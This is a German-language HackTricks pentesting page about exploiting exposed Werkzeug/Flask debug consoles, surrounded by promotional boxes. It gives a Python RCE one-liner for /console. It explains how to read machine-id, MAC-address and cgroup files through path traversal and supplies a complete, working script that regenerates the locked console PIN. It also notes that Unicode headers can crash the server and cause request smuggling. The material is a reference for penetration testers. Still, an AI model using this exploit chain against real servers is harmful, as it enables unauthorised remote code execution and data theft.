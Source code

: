 # Werkzeug / Flask Debug

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

**Sofort verfügbare Einrichtung für Schwachstellenbewertung und Penetrationstests**. Führen Sie einen vollständigen Pentest von überall aus mit 20+ Tools & Funktionen durch, die von der Aufklärung bis zum Bericht reichen. Wir ersetzen keine Pentester - wir entwickeln benutzerdefinierte Tools, Erkennungs- und Exploit-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/" %}

## Console RCE

Wenn das Debuggen aktiv ist, könnten Sie versuchen, auf `/console` zuzugreifen und RCE zu erlangen.
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

Es gibt auch mehrere Exploits im Internet wie [dieser](https://github.com/its-arun/Werkzeug-Debug-RCE) oder einer in Metasploit.

## Pin Geschützt - Pfad Traversal

In einigen Fällen wird der Endpunkt **`/console`** durch eine PIN geschützt sein. Wenn Sie eine **Dateitraversal-Schwachstelle** haben, können Sie alle notwendigen Informationen preisgeben, um diese PIN zu generieren.

### Werkzeug Console PIN Exploit

Erzwingen Sie eine Debug-Fehlerseite in der App, um dies zu sehen:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
Eine Nachricht bezüglich des Szenarios "Konsole gesperrt" wird beim Versuch, auf die Debug-Schnittstelle von Werkzeug zuzugreifen, angezeigt, was auf die Notwendigkeit einer PIN zur Entsperrung der Konsole hinweist. Es wird vorgeschlagen, die Konsole-PIN auszunutzen, indem der PIN-Generierungsalgorithmus in der Debug-Initialisierungsdatei von Werkzeug (`__init__.py`) analysiert wird. Der PIN-Generierungsmechanismus kann aus dem [**Werkzeug-Quellcode-Repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/__init__.py) studiert werden, obwohl empfohlen wird, den tatsächlichen Servercode über eine Dateitraversierbarkeitslücke zu beschaffen, aufgrund potenzieller Versionsunterschiede.

Um die Konsole-PIN auszunutzen, werden zwei Sätze von Variablen benötigt, `probably_public_bits` und `private_bits`:

#### **`probably_public_bits`**

* **`username`**: Verweist auf den Benutzer, der die Flask-Sitzung initiiert hat.
* **`modname`**: Typischerweise als `flask.app` bezeichnet.
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: Löst im Allgemeinen zu **Flask** auf.
* **`getattr(mod, '__file__', None)`**: Stellt den vollständigen Pfad zu `app.py` im Flask-Verzeichnis dar (z. B. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). Wenn `app.py` nicht zutreffend ist, **versuchen Sie es mit `app.pyc`**.

#### **`private_bits`**

* **`uuid.getnode()`**: Ruft die MAC-Adresse des aktuellen Geräts ab, wobei `str(uuid.getnode())` diese in ein Dezimalformat übersetzt.
* Um die **MAC-Adresse des Servers zu bestimmen**, muss die aktive Netzwerkschnittstelle identifiziert werden, die von der App verwendet wird (z. B. `ens3`). Bei Unsicherheit **leaken Sie `/proc/net/arp`**, um die Geräte-ID zu finden, und **extrahieren Sie dann die MAC-Adresse** aus **`/sys/class/net/<Geräte-ID>/address`**.
* Die Umwandlung einer hexadezimalen MAC-Adresse in Dezimal kann wie folgt durchgeführt werden:

```python
# Beispiel MAC-Adresse: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: Verknüpft Daten aus `/etc/machine-id` oder `/proc/sys/kernel/random/boot_id` mit der ersten Zeile von `/proc/self/cgroup` nach dem letzten Schrägstrich (`/`).

<details>

<summary>Code für `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

Nachdem alle erforderlichen Daten gesammelt wurden, kann das Exploit-Skript ausgeführt werden, um die Werkzeug-Konsole-PIN zu generieren. Das Skript verwendet die zusammengestellten `probably_public_bits` und `private_bits`, um einen Hash zu erstellen, der dann weiterverarbeitet wird, um die endgültige PIN zu erzeugen. Im Folgenden finden Sie den Python-Code zur Ausführung dieses Prozesses:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
Dieses Skript erzeugt die PIN, indem es die konkatenierten Bits hashiert, spezifische Salze (`cookiesalt` und `pinsalt`) hinzufügt und das Ergebnis formatiert. Es ist wichtig zu beachten, dass die tatsächlichen Werte für `probably_public_bits` und `private_bits` genau vom Zielsystem erhalten werden müssen, um sicherzustellen, dass die generierte PIN mit der von der Werkzeug-Konsole erwarteten übereinstimmt.

{% hint style="success" %}
Wenn Sie eine **alte Version** von Werkzeug verwenden, versuchen Sie, den **Hash-Algorithmus auf md5** anstelle von sha1 zu ändern.
{% endhint %}

## Werkzeug Unicode-Zeichen

Wie in [**diesem Problem**](https://github.com/pallets/werkzeug/issues/2833) festgestellt, schließt Werkzeug keine Anfrage mit Unicode-Zeichen in den Headern. Und wie in [**diesem Bericht**](https://mizu.re/post/twisty-python) erklärt, könnte dies eine CL.0 Request Smuggling-Schwachstelle verursachen.

Dies liegt daran, dass es in Werkzeug möglich ist, einige **Unicode**-Zeichen zu senden und den Server zum **Absturz** zu bringen. Wenn jedoch die HTTP-Verbindung mit dem Header **`Connection: keep-alive`** erstellt wurde, wird der Body der Anfrage nicht gelesen und die Verbindung bleibt offen, sodass der **Body** der Anfrage als **nächste HTTP-Anfrage** behandelt wird.

## Referenzen

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

**Sofort verfügbare Einrichtung für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall aus mit 20+ Tools & Funktionen durch, die von der Aufklärung bis zum Bericht reichen. Wir ersetzen keine Pentester - wir entwickeln benutzerdefinierte Tools, Erkennungs- & Exploit-Module, um ihnen etwas Zeit zu geben, tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/" %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen** oder **HackTricks als PDF herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
